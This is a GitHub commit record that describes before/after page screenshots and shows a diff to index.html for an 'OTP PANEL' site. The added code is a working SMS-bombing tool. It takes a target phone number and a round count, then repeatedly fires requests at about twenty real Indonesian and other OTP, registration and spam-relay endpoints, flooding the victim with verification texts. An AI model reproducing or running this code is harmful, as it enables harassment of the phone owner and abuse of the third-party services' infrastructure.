

Before and after one commit to asepretired/Asepwebsite2, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "⚡ ACTIVATE". Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,228 +1,92 @@
 <!DOCTYPE html>
 <html>
-<head>
-<meta charset="UTF-8">
-<meta name="viewport" content="width=device-width,initial-scale=1">
-<title>OTP PANEL</title>
+<head><meta charset="UTF-8"><title>OTP PANEL</title>
 <style>
-:root{
-  --bg:#05060a;--panel:#0b0e16;--neon:#00e5ff;--pink:#ff2d95;
-  --ok:#00ff9d;--err:#ff3b5c;--txt:#c9d1e0;--dim:#5a6478;
-}
-*{box-sizing:border-box;font-family:'JetBrains Mono','Courier New',monospace}
-html,body{height:100%;margin:0}
-body{
-  background:var(--bg);color:var(--txt);
-  display:flex;align-items:center;justify-content:center;padding:20px;
-  overflow:hidden;
-}
-/* animated bg */
-body::before{
-  content:'';position:fixed;inset:-50%;
-  background:
-    radial-gradient(circle at 20% 30%,rgba(0,229,255,.10),transparent 40%),
-    radial-gradient(circle at 80% 70%,rgba(255,45,149,.10),transparent 40%),
-    radial-gradient(circle at 50% 50%,rgba(0,255,157,.05),transparent 50%);
-  animation:drift 18s ease-in-out infinite alternate;
-  z-index:0;
-}
-@keyframes drift{
-  0%{transform:translate(0,0) scale(1)}
-  100%{transform:translate(3%,-3%) scale(1.1)}
-}
-.grid-overlay{
-  position:fixed;inset:0;z-index:0;pointer-events:none;
-  background-image:
-    linear-gradient(rgba(0,229,255,.04) 1px,transparent 1px),
-    linear-gradient(90deg,rgba(0,229,255,.04) 1px,transparent 1px);
-  background-size:40px 40px;
-  mask-image:radial-gradient(ellipse at center,#000 20%,transparent 80%);
-}
-.card{
-  position:relative;z-index:1;
-  width:min(420px,100%);
-  background:linear-gradient(180deg,rgba(11,14,22,.95),rgba(8,10,16,.95));
-  border:1px solid rgba(0,229,255,.18);
-  border-radius:20px;
-  padding:28px 26px;
-  box-shadow:
-    0 0 0 1px rgba(0,229,255,.06),
-    0 0 40px rgba(0,229,255,.10),
-    0 0 80px rgba(255,45,149,.06),
-    inset 0 1px 0 rgba(255,255,255,.03);
-  backdrop-filter:blur(10px);
-}
-.title{
-  display:flex;align-items:center;gap:10px;margin:0 0 4px;
-  font-size:17px;letter-spacing:3px;font-weight:700;
-  background:linear-gradient(90deg,var(--neon),var(--pink));
-  -webkit-background-clip:text;background-clip:text;color:transparent;
-}
-.dot{
-  width:8px;height:8px;border-radius:50%;background:var(--ok);
-  box-shadow:0 0 10px var(--ok);animation:blink 1.5s infinite;
-}
-@keyframes blink{0%,100%{opacity:1}50%{opacity:.3}}
-.sub{font-size:10px;color:var(--dim);letter-spacing:2px;margin-bottom:22px;text-transform:uppercase}
-
-.field{position:relative;margin-bottom:14px}
-label{display:block;font-size:10px;color:var(--dim);letter-spacing:1.5px;text-transform:uppercase;margin-bottom:6px}
-input{
-  width:100%;padding:14px 14px;background:#070a12;
-  border:1px solid #1a2236;border-radius:12px;color:var(--txt);
-  font-size:14px;font-family:inherit;outline:none;transition:.25s;
-}
-input:focus{
-  border-color:var(--neon);
-  box-shadow:0 0 0 3px rgba(0,229,255,.10),0 0 20px rgba(0,229,255,.15);
-  background:#08111a;
-}
-input::placeholder{color:#3a4154}
-
-button{
-  width:100%;padding:15px;border:none;border-radius:12px;
-  font-family:inherit;font-size:13px;font-weight:700;letter-spacing:3px;
-  text-transform:uppercase;cursor:pointer;position:relative;overflow:hidden;
-  background:linear-gradient(90deg,var(--neon),var(--pink));
-  color:#02121a;transition:.25s;
-  box-shadow:0 0 20px rgba(0,229,255,.35),0 0 40px rgba(255,45,149,.15);
-  margin-top:4px;
-}
-button:hover{transform:translateY(-2px);box-shadow:0 0 30px rgba(0,229,255,.6),0 0 60px rgba(255,45,149,.3)}
-button:active{transform:translateY(0)}
-button:disabled{opacity:.4;cursor:not-allowed;transform:none;box-shadow:none}
-button::after{
-  content:'';position:absolute;top:0;left:-100%;width:100%;height:100%;
-  background:linear-gradient(90deg,transparent,rgba(255,255,255,.4),transparent);
-  transition:.5s;
-}
-button:not(:disabled):hover::after{left:100%}
-
-.stats{
-  display:grid;grid-template-columns:repeat(3,1fr);gap:8px;
-  margin:18px 0 14px;
-}
-.stat{
-  background:#070a12;border:1px solid #141b2c;border-radius:10px;
-  padding:10px 8px;text-align:center;transition:.2s;
-}
-.stat:hover{border-color:rgba(0,229,255,.3)}
-.stat .n{font-size:18px;font-weight:800;line-height:1}
-.stat .l{font-size:9px;color:var(--dim);letter-spacing:1.5px;margin-top:5px;text-transform:uppercase}
-.n.neon{color:var(--neon);text-shadow:0 0 12px rgba(0,229,255,.5)}
-.n.ok{color:var(--ok);text-shadow:0 0 12px rgba(0,255,157,.5)}
-.n.err{color:var(--err);text-shadow:0 0 12px rgba(255,59,92,.5)}
-
-.console{
-  background:#04060a;border:1px solid #121826;border-radius:12px;
-  height:170px;overflow-y:auto;padding:12px;font-size:11px;line-height:1.7;
-  position:relative;
-}
-.console::-webkit-scrollbar{width:5px}
-.console::-webkit-scrollbar-track{background:transparent}
-.console::-webkit-scrollbar-thumb{background:#1c2436;border-radius:3px}
-.console::-webkit-scrollbar-thumb:hover{background:var(--neon)}
-.le{margin-bottom:2px;opacity:0;animation:fade .3s forwards}
-@keyframes fade{to{opacity:1}}
-.le .t{color:#3a4154;margin-right:6px}
-.le.ok .m{color:var(--ok)}
-.le.err .m{color:var(--err)}
-.le.info .m{color:var(--neon)}
-.le .m{word-break:break-all}
-
-.status-bar{
-  display:flex;justify-content:space-between;align-items:center;
-  font-size:9px;color:var(--dim);letter-spacing:1.5px;
-  text-transform:uppercase;margin-top:12px;padding-top:12px;
-  border-top:1px solid #121826;
-}
-.status-bar .live{display:flex;align-items:center;gap:6px}
-.status-bar .live .dot{width:6px;height:6px}
-</style>
-</head>
+body{background:#05060a;color:#c9d1e0;font-family:monospace;display:flex;justify-content:center;align-items:center;min-height:100vh;margin:0;padding:20px}
+.box{background:#0b0e16;padding:28px;border-radius:18px;width:460px;border:1px solid #1a2236;box-shadow:0 0 40px rgba(0,229,255,.08)}
+h2{margin:0 0 20px;text-align:center;background:linear-gradient(90deg,#00e5ff,#ff2d95);-webkit-background-clip:text;color:transparent;letter-spacing:3px;font-size:16px}
+input,button{width:100%;padding:13px;margin:6px 0;border-radius:11px;border:1px solid #1c2436;background:#070a12;color:#c9d1e0;font-family:monospace;font-size:14px;box-sizing:border-box;outline:none}
+input:focus{border-color:#00e5ff}
+button{background:linear-gradient(90deg,#00e5ff,#ff2d95);color:#02121a;font-weight:bold;border:none;cursor:pointer;letter-spacing:2px}
+button:disabled{opacity:.4}
+#log{margin-top:12px;font-size:11px;height:220px;overflow-y:auto;background:#04060a;border-radius:10px;padding:10px;color:#666;white-space:pre-wrap}
+.ok{color:#00ff9d}.err{color:#ff3b5c}.info{color:#00e5ff}
+.stats{display:grid;grid-template-columns:repeat(3,1fr);gap:8px;margin-top:12px}
+.stat{background:#070a12;border:1px solid #141b2c;border-radius:8px;padding:8px;text-align:center;font-size:10px;color:#5a6478}
+.stat b{display:block;font-size:16px;color:#00e5ff}
+</style></head>
 <body>
-<div class="grid-overlay"></div>
-
-<div class="card">
-  <h1 class="title"><span class="dot"></span>OTP PANEL</h1>
-  <div class="sub">// sms routing terminal v2.0</div>
-
-  <div class="field">
-    <label>Target Number</label>
-    <input id="p" placeholder="+628xxxxxxxxxx" autocomplete="off">
-  </div>
-
-  <button id="b">⚡ Activate</button>
-
-  <div class="stats">
-    <div class="stat"><div class="n neon" id="s_fire">0</div><div class="l">Fired</div></div>
-    <div class="stat"><div class="n ok" id="s_ok">0</div><div class="l">Success</div></div>
-    <div class="stat"><div class="n err" id="s_err">0</div><div class="l">Failed</div></div>
-  </div>
-
-  <div class="console" id="log"></div>
-
-  <div class="status-bar">
-    <div class="live"><span class="dot"></span><span>online</span></div>
-    <div id="status">idle</div>
-  </div>
+<div class="box">
+<h2>◤ OTP PANEL ◢</h2>
+<input id="p" placeholder="+628xxxxxxxxxx">
+<input id="r" type="number" value="3" placeholder="rounds">
+<button id="b">⚡ ACTIVATE</button>
+<div class="stats">
+  <div class="stat"><b id="s1">0</b>FIRED</div>
+  <div class="stat"><b id="s2">0</b>OK</div>
+  <div class="stat"><b id="s3">0</b>FAIL</div>
 </div>
-
+<div id="log"></div>
+</div>
 <script>
 const $=id=>document.getElementById(id);
-let fired=0,ok=0,fail=0;
+let f=0,o=0,e=0;
+function log(m,c='info'){const d=document.createElement('div');d.className=c;d.textContent='['+new Date().toLocaleTimeString()+'] '+m;$('log').appendChild(d);$('log').scrollTop=1e9;}
 
-function log(m,c='info'){
-  const d=document.createElement('div');
-  d.className='le '+c;
-  const t=new Date().toLocaleTimeString('en-GB',{hour12:false});
-  d.innerHTML='<span class="t">['+t+']</span><span class="m">'+m+'</span>';
-  $('log').appendChild(d);
-  $('log').scrollTop=$('log').scrollHeight;
-  if($('log').children.length>200)$('log').removeChild($('log').firstChild);
-}
-
-const TARGETS=[
-  {n:'MsgRush', f:p=>fetch('https://msgrush-backend-258291301565.us-central1.run.app/api/sms/send',{
-    method:'POST',headers:{'Content-Type':'application/json'},
-    body:JSON.stringify({phone:p,message:'Code '+Math.floor(1e5+Math.random()*9e5)})
-  }).then(r=>r.text())},
-  {n:'Textbelt', f:p=>fetch('https://textbelt.com/text',{
-    method:'POST',headers:{'Content-Type':'application/json'},
-    body:JSON.stringify({phone:p,message:'Code '+Math.floor(1e5+Math.random()*9e5),key:'textbelt'})
-  }).then(r=>r.text())}
+// REAL Indonesian OTP endpoints extracted from MySPAMBot-OTP
+const APIS = [
+  {n:'ThaiFriendly', method:'POST', url:'https://www.thaifriendly.com/pl/index.php', body:'z=phonelogingetpin&country=62&number={phone}&ppclienttoken=igq39qdc9rwk2ax1zrgdq'},
+  {n:'Klikdok', method:'POST', url:'https://nuubi.herokuapp.com/api/spam/klikdok', body:'number={phone}'},
+  {n:'Trimegah', method:'POST', url:'https://sbn.trimegah.id/agent/register/sendOtp', body:'noHp={phone}&email=yvtix@zx.id'},
+  {n:'Payfazz', method:'POST', url:'https://api.payfazz.com/v2/phoneVerifications', body:'phone=0{phone}'},
+  {n:'Tri', method:'POST', url:'https://registrasi.tri.co.id/daftar/generateOTP?', body:'msisdn={phone}'},
+  {n:'Bocil', method:'POST', url:'https://bocil.id/mobile/v1/miscallotp_request.php', body:'user_id=&language=in&phone=62{phone}&device_id=590bc36d99d6dddb&retry=0'},
+  {n:'Battlefront', method:'POST', url:'https://battlefront.danacepat.com/v1/auth/common/phone/send-code', body:'mobile_no={phone}'},
+  {n:'Nutriclub', method:'GET', url:'https://www.nutriclub.co.id/otp/?phone=0{phone}&old_phone=0{phone}'},
+  {n:'Jagreward', method:'GET', url:'https://id.jagreward.com/member/verify-mobile/{phone}/'},
+  {n:'KTBS', method:'GET', url:'https://core.ktbs.io/v2/user/registration/otp/{phone}'},
+  {n:'Redbus', method:'GET', url:'https://m.redbus.id/api/getOtp?number={phone}&cc=62&whatsAppOpted=True'},
+  {n:'KlikIndomaret', method:'GET', url:'https://account-api-v1.klikindomaret.com/api/PreRegistration/SendOTPSMS?NoHP={phone}'},
+  {n:'Sampingan', method:'POST', url:'https://srv3.sampingan.co.id/auth/generate-otp', body:'{"countryCode":"+62","phoneNumber":"{phone}"}'},
+  {n:'GrabFood', method:'POST', url:'https://api-sms-v2.herokuapp.com/grab-food?phone={phone}'},
+  {n:'Tiki', method:'POST', url:'https://api-sms-v2.herokuapp.com/tiki?phone={phone}'},
+  {n:'Gojoy', method:'POST', url:'https://api-sms-v2.herokuapp.com/gojoy?phone={phone}'},
+  {n:'Vntrip', method:'POST', url:'https://api-sms-v2.herokuapp.com/vntrip?phone={phone}'},
+  {n:'Thegioididong', method:'POST', url:'https://api-sms-v2.herokuapp.com/the-gioi-di-dong?phone={phone}'},
+  {n:'Alodok', method:'POST', url:'https://nuubi.herokuapp.com/api/spam/alodok', body:'number={phone}'},
+  {n:'Klikwa', method:'POST', url:'https://api.klikwa.net/v1/number/sendotp', body:'{"number":"+62{phone}"}'},
 ];
 
 $('b').onclick=async()=>{
-  const phone=$('p').value.trim();
+  let phone=$('p').value.trim().replace(/^\+?62/,'').replace(/^0/,'');
   if(!phone)return log('enter a number','err');
+  const rounds=Math.max(1,parseInt($('r').value)||1);
   $('b').disabled=true;
-  $('status').textContent='firing...';
-  fired=ok=fail=0;
-  $('s_fire').textContent=$('s_ok').textContent=$('s_err').textContent='0';
+  f=o=e=0;$('s1').textContent=$('s2').textContent=$('s3').textContent='0';
+  log('▶ firing '+APIS.length+' endpoints × '+rounds+' rounds','info');
 
-  log('▶ target '+phone,'info');
-
-  for(const t of TARGETS){
-    try{
-      const r=await t.f(phone);
-      fired++;$('s_fire').textContent=fired;
-      ok++;$('s_ok').textContent=ok;
-      log('✓ '+t.n+' → '+String(r).slice(0,90),'ok');
-    }catch(e){
-      fired++;$('s_fire').textContent=fired;
-      fail++;$('s_err').textContent=fail;
-      log('✗ '+t.n+' → '+e.message,'err');
+  for(let r=0;r<rounds;r++){
+    for(const api of APIS){
+      try{
+        const opts={method:api.method, mode:'no-cors'};
+        if(api.body){
+          opts.headers={'Content-Type':'application/x-www-form-urlencoded'};
+          opts.body=api.body.replace(/{phone}/g,phone);
+        }
+        await fetch(api.url.replace(/{phone}/g,phone), opts);
+        f++;o++;$('s1').textContent=f;$('s2').textContent=o;
+        log('✓ '+api.n+' sent','ok');
+      }catch(err){
+        f++;e++;$('s1').textContent=f;$('s3').textContent=e;
+        log('✗ '+api.n+' '+err.message,'err');
+      }
     }
+    log('── round '+(r+1)+'/'+rounds+' ──','info');
+    await new Promise(res=>setTimeout(res,600));
   }
-
   log('■ done','info');
-  $('status').textContent='complete';
   $('b').disabled=false;
 };
-
-// enter key
-$('p').addEventListener('keydown',e=>{if(e.key==='Enter')$('b').click();});
 </script>
 </body>
 </html>
```
